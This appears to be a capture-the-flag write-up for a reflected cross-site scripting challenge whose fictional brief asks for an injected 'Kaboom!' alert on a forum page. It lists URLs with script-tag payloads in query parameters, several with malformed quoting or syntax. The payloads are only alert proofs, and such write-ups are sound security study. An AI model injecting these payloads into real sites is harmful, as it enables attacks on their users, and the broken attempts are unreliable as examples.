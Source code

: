 # L9C4

Agent, we've been looking into the different ways the Spetzners have been communicating with each other about their plans, and one of them is a science forum called Bunsen Burners. We want to see if the site is vulnerable in such a way that would allow us to serve our own JavaScript to one of the gang when they view it.

We've created an account for you and made a test forum page called "Hack Trick". Though it looks like input is sanitised, the alert function is still available. See if you can submit some malicious JavaScript and get an alert box to appear on the page saying "Kaboom!".

**Tip:** Get the site to output an alert with the right text and you'll get the flag!



</br></br>
### Writeup begins here:

```
[https://example.com?name=](https://example.com/?name=)<script>alert(1);</script>

https://www.allbunsenburners.com/thread/47362/hack-trick?name[=](http://100.26.239.14:3000/vuln/xss/2?id=)<script>alert(Kaboom!)</script>

Kaboom!

https://www.allbunsenburners.com/thread/47362/hack-trick?id=<script>alert(Kaboom!)</script>

[http://example.com/search.php?query=a‛](http://example.com/search.php?query=a%E2%80%9B)><script>alert(‚123‛)</script>

[https://www.allbunsenburners.com/thread/47362/hack-trick](https://www.allbunsenburners.com/thread/47362/hack-trick?id=)?query=a`><script>(”Kaboom!”)</script>

[http://example.com/search.php?query=a‛](http://example.com/search.php?query=a%E2%80%9B)><script>alert(‚123‛)</script>

<script>alert(”Kaboom!”);</script>
